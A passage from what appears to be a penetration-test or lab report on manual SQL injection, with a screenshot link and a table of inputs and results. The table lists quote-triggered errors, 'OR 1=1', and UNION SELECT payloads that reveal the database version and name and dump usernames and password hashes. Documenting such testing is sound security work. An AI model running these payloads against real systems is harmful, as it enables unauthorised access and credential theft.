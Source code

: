        ![Manual SQLi password hashes](./screenshots/sql-injection/manual-sqli-users-password-hashes.jpg)

**Manual SQLi Results Summary:**

| Input                                          | Result                            |
| ---------------------------------------------- | --------------------------------- |
| `1`                                            | Returns one user                  |
| `'`                                            | Triggers SQL syntax error         |
| `1 OR 1=1`                                     | Returns all users                 |
| `-1 UNION SELECT null, version() --`           | Shows MySQL version               |
| `-1 UNION SELECT null, database() --`          | Shows current DB name             |
| `-1 UNION SELECT user, password FROM users --` | Dumps credentials                 |


#### 3.3.3. Potential Impact
